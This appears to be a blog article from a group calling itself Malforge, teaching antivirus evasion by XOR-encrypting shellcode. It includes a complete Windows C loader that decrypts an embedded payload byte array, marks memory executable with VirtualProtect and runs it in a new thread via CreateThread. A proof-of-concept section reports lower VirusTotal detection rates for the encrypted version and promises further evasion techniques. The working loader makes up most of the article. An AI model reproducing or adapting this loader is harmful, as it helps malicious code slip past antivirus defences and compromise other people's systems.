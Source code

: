 # AV Evasion with XOR Encryption

## Introduction

Welcome to this article where we explore antivirus evasion using XOR encryption to protect shellcode. This technique bypasses static antivirus detection by encrypting the payload, though dynamic analysis can still detect it. Future articles will cover methods to evade dynamic detection as well.

The malicious payload is encrypted with XOR, making it unreadable to antivirus scanners. However, during execution, when the payload is decrypted to run, dynamic antivirus solutions can detect the malicious activity.

## XOR :

> Definition of XOR\
Definition of XOR | PCMag (e Xclusive OR) A Boolean logic operation that is widely used in cryptography as well as in [pcmag.com](https://www.pcmag.com/encyclopedia/term/xor)

**XOR (eXclusive OR) is a Boolean logic operation commonly used in cryptography and for generating parity bits in error checking and fault tolerance.** XOR takes two input bits and produces one output: 0 if the inputs match, 1 if they differ.

![image](https://github.com/user-attachments/assets/467f1016-577f-472f-b135-af99b5ea7372)

## Code

This is the code implementation used to demonstrate the XOR encryption technique :
```C
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void XOR(char *data, size_t data_len, char *key, size_t key_len)
{
    int j;

    j = 0;
    for (int i = 0; i < data_len; i++)
    {
        if (j == key_len - 1)
            j = 0;

        data[i] = data[i] ^ key[j];
        j++;
    }
}

int main(void)
{

    void *exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    unsigned char calc_payload[] = {0x2c, 0x96, 0xcc, 0xd8, 0x5b, 0x9d, 0xda, 0xc9, 0x1e, 0x8a, 0xda, 0xd8, 0x21, 0x35, 0x36, 0x5c, 0x8c, 0xcd, 0xd8, 0x1, 0x84, 0xda, 0xd8, 0x3d, 0x29, 0x96, 0xcc, 0xd8, 0x23, 0x56, 0x2c, 0x9b, 0xd4, 0xd8, 0x3, 0x24, 0x82, 0xc6, 0xce, 0x2d, 0x8c, 0xcd, 0xd8, 0x24, 0x84, 0xda, 0xd8, 0x2d, 0x8f, 0xef, 0xe1, 0x21, 0x8c, 0xcd, 0xd8, 0x34, 0x4b, 0x2c, 0x8a, 0xda, 0xd0, 0x96, 0xcc, 0xd8, 0x35, 0x3a, 0x8a, 0xcb, 0xd6, 0x8a, 0xda, 0xd8, 0x2c, 0x96, 0xcc, 0xd8, 0x57, 0x9d, 0xda, 0xc9, 0x23, 0x8a, 0xda, 0xd8, 0x20, 0x48, 0x9c, 0xda, 0xde, 0x3a, 0x54, 0x9b, 0xd4, 0xd8, 0x8a, 0xda, 0xd0, 0x38, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x66, 0x6f, 0x45, 0x45, 0x4d, 0x59, 0x53, 0x45, 0x43, 0x52, 0x45, 0x54, 0x4b, 0x45, 0x45, 0x45, 0x4d, 0x59, 0x53, 0x45, 0x43, 0x52, 0x45, 0x54, 0x4b, 0x2d, 0x21, 0x8a, 0xd2, 0xc4, 0x33, 0x2c, 0x8c, 0xcd, 0xd8, 0x35, 0x84, 0xda, 0xd8, 0x8a, 0xd2, 0xc4, 0x3b, 0x8a, 0xdc, 0xcf, 0x24, 0x2c, 0x2a, 0x3d, 0x3b, 0x3c, 0x37, 0x38, 0x2b, 0x24, 0x3a, 0x33, 0x3f, 0x3c, 0x84, 0xda, 0xd8, 0x8a, 0xd2, 0xc4, 0x53, 0x24, 0x31, 0x9d, 0xda, 0xc9, 0x84, 0xda, 0xd8, 0x3d, 0x2c, 0x20, 0x29, 0x2d, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x32, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x36, 0x2c, 0x8a, 0xda, 0xd0, 0xe, 0x0, 0x57, 0x3c, 0x41, 0x57, 0x35, 0x3d, 0x2c, 0x8a, 0xda, 0xd0, 0x96, 0xcc, 0xd8, 0x2b, 0x9d, 0xda, 0xc9, 0x84, 0xda, 0xd8, 0x8a, 0xd2, 0xc4, 0x3a, 0x8a, 0xdc, 0xcf, 0x8a, 0xcb, 0xd6, 0x2c, 0x8a, 0xda, 0xd0, 0x96, 0xcc, 0xd8, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x8a, 0xda, 0xd0, 0x38, 0x27, 0x2c, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x29, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x33, 0x8a, 0xcb, 0xd6, 0x29, 0x12, 0x43, 0x82, 0xc6, 0xce, 0x8a, 0xdc, 0xcf, 0x29, 0x9b, 0xd4, 0xd8, 0x8a, 0xda, 0xd0, 0x11, 0x2a, 0x24, 0x8c, 0xcd, 0xd8, 0x5d, 0x84, 0xda, 0xd8, 0xe, 0x82, 0xc6, 0xce, 0x8a, 0xdc, 0xcf, 0x35, 0x24, 0x26, 0x54, 0x8a, 0xda, 0xd0, 0x34, 0x42, 0x8a, 0xdc, 0xcf, 0x2d, 0x9b, 0xd4, 0xd8, 0x8a, 0xda, 0xd0, 0x31, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x23, 0x8a, 0xda, 0xd8, 0x82, 0xc6, 0xce, 0x2d, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x24, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x84, 0xda, 0xd8, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x3a, 0x8a, 0xcb, 0xd6, 0x8a, 0xda, 0xd8, 0x7, 0x38, 0x2b, 0x29, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x3c, 0x24, 0x3d, 0x96, 0xcc, 0xd8, 0x8c, 0xcd, 0xd8, 0x12, 0x84, 0xda, 0xd8, 0x21, 0x49, 0x2d, 0x3b, 0x8a, 0xdc, 0xcf, 0x21, 0x50, 0x89, 0xf3, 0xf7, 0x8a, 0xd2, 0xc4, 0x1b, 0x2d, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x33, 0x35, 0x2c, 0x29, 0x32, 0x35, 0x22, 0x22, 0x2c, 0x9b, 0xd4, 0xd8, 0x8a, 0xda, 0xd0, 0x38, 0x23, 0x2c, 0x8c, 0xcd, 0xd8, 0x9b, 0xd4, 0xd8, 0x28, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x3e, 0x8a, 0xcb, 0xd6, 0x8a, 0xda, 0xd8, 0x2c, 0x96, 0xcc, 0xd8, 0x1a, 0x9d, 0xda, 0xc9, 0x54, 0x8a, 0xda, 0xd8, 0x82, 0xc6, 0xce, 0x8a, 0xdc, 0xcf, 0x2d, 0x45, 0x84, 0xda, 0xd8, 0x2d, 0x82, 0xc6, 0xce, 0xaf, 0xe8, 0x33, 0x8a, 0xcb, 0xd6, 0x5, 0x8a, 0xda, 0xd0, 0xac, 0xc8, 0x8a, 0xdc, 0xcf, 0x8a, 0xcb, 0xd6, 0x8a, 0xda, 0xd8, 0x3b, 0x38, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x84, 0xda, 0xd8, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x84, 0xda, 0xd8, 0x2d, 0x82, 0xc6, 0xce, 0x8a, 0xdc, 0xcf, 0x4d, 0x48, 0x17, 0x68, 0x6f, 0x8a, 0xd2, 0xc4, 0x9c, 0xda, 0xde, 0x9d, 0xda, 0xc9, 0x1e, 0x8a, 0xda, 0xd8, 0x2a, 0xb, 0x1c, 0xf, 0x3a, 0x33, 0x8a, 0xcb, 0xd6, 0x8a, 0xda, 0xd8, 0x82, 0xc6, 0xce, 0x8a, 0xdc, 0xcf};
    unsigned int calc_len = sizeof(calc_payload);
    char key[] = "mysecretkeee";

    // Allocate a buffer for payload
    exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decrypt (DeXOR) the payload
    XOR((char *)calc_payload, calc_len, key, sizeof(key));

    // Copy the payload to allocated buffer
    RtlMoveMemory(exec_mem, calc_payload, calc_len);

    // Make the buffer executable
    rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, launch the payload
    if (rv != 0)
    {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Two functions are displayed above :

- **Main:** This function allocates a new memory buffer using `VirtualAlloc`, then decodes the XOR-encrypted payload with the `XOR` function. Once the payload is ready, it moves the memory to another location using `RtlMoveMemory`, marks the buffer as executable with `VirtualProtect`, and finally executes it using `CreateThread`.

- **XOR:** This function is simple, with the key being crucial for decryption. While XOR is often thought of as an **encoding** method, it's actually considered **encryption** when a key is used to decrypt data. The **key** variable is passed to the XOR function, where the mathematical operation decrypts the XOR-encrypted payload.


## Proof of Concept (PoC)

To test the payload against antivirus, the following website is used.

> VirusTotal\
VirusTotal. [virustotal.com](https://www.virustotal.com/gui/home/upload)

These are the results when the payload is not encoded with XOR : 

![image](https://github.com/user-attachments/assets/4bae10b0-a021-450c-a3f4-42c23468e968)

These are the results when the payload is encoded with XOR : 

![image](https://github.com/user-attachments/assets/194b7a6a-88d9-4b0b-80fb-51eeae602b0c)

## Conclusions

 XOR encoding helps bypass some antivirus detections, but not all. Future articles will explore additional methods to evade more antivirus software.

Thanks for reading! :D

**— Malforge Group.**
